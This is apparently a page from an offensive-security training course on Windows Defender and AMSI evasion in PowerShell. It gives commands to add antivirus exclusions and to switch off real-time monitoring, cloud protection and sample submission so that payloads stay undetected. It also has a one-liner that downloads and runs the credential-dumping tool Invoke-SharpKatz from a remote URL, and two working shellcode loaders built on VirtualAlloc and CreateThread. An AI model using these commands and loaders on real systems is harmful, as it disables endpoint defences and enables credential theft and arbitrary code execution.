

# Powershell

> ***IMPORTANT*** : Please do not send submit samples to `Virus Total` or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> Make sure at all times that sample submussion in Microsoft Defender is turned off, and if for some reason you get prompted to submit a sample, deny the request.

Make exceptions in Windows Defender:

```bash
[+] C:\Downloads -> to make it easier to download our tools with out AV Detection
[+] C:\THEV -> our training course
[+] C:\Temp -> Used by GoCheck
[+] C:\SysinternalsSuite
```

We can do this using powershell:

```powershell
Add-MpPreference -ExclusionPath "C:\SysinternalsSuite"
(Get-MpPreference).ExclusionPath
```

We can check some general Defender settings in powershell:

```powershell
Get-MpComputerStatus
Get-MpThreat
```

Turning off various modules of Microsoft Defender using powershell:

### Real-Time Protection
`Real-Time Protection`: This is a feature of Microsoft Defender that continuously monitors your system for threats (e.g., malware, viruses) in real-time. It scans files, apps, and processes as they are accessed or executed. Setting DisableRealtimeMonitoring to $true turns off real-time protection, meaning files and processes are no longer automatically scanned.

This does not disable Microsoft Defender entirely—it only disables real-time scanning. Other features like ***scheduled scans and manual scans will still work***.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Cloud-Delivered Protection
The `MAPSReporting` setting controls the Microsoft Active Protection Service (MAPS), also referred to as `Cloud-Delivered Protection`. Setting it to Disabled stops your system from sending information about threats to Microsoft and prevents it from receiving `cloud-based threat intelligence` in real time.

```powershell
Set-MpPreference -MAPSReporting Disable
```

### Automatic Sample Submission
`SubmitSamplesConsent` controls how Microsoft Defender submits samples of suspicious or potentially harmful files to Microsoft for analysis. These samples help improve Defender’s detection and protection capabilities.

`NeverSend`: This value tells Microsoft Defender to disable all sample submissions. No files will be sent to Microsoft for further analysis, even if they’re flagged as suspicious.

```powershell
Set-MpPreference -SubmitSamplesConsent NeverSend
```

| Consent Level | Description                       |
|---------------|-----------------------------------|
| 0             | Always Prompt                     |
| 1             | Send Safe Samples Automatically   |
| 2             | Never Send                        |


# LAB - Evading AMSI

> For this lab we will enable ``Microsoft Defender`` - in order to demonstrate how AMSI works, and how to bypass it.

Check if Defender is turned on by either using the powershell commands, or the GUI:

```powershell
[PSCustomObject]@{
    "Real-Time Protection"        = (Get-MpComputerStatus).RealTimeProtectionEnabled
    "Cloud-Delivered Protection"  = if ((Get-MpPreference).MAPSReporting -eq 2) { $true } else { $false }
    "Automatic Sample Submission" = if ((Get-MpPreference).SubmitSamplesConsent -eq 1) { $true } else { $false }
} | Format-Table -AutoSize
```

The output should be like this :



Let's open a powershell terminal and run SharpKatz from memory with IEX (Invoke Expression)

```Powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/Invoke-SharpKatz/refs/heads/main/Invoke-SharpKatz.ps1");Invoke-SharpKatz
```

We'll see the script won't execute since AMSI has scanned it and determined it as malicious:


AMSI
Invoke-Obfuscastion
powershell shellcode loader (without amsi bypass)

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

$code = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("msvcrt.dll", SetLastError=true)] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
}
"@

Add-Type -TypeDefinition $code

# Allocate memory
$mem = [Win32]::VirtualAlloc([IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)

# Copy shellcode to memory
[Win32]::memcpy($mem, $shellcode, $shellcode.Length)

# Create thread to execute shellcode
$thread = [Win32]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)

# Wait for thread to exit (optional)
[System.Runtime.InteropServices.Marshal]::WaitForSingleObject($thread, 0xFFFFFFFF)
```

Shorter version:

```powershell
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)

# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)

# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])

# Start the thread
$thread.Invoke()

# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
```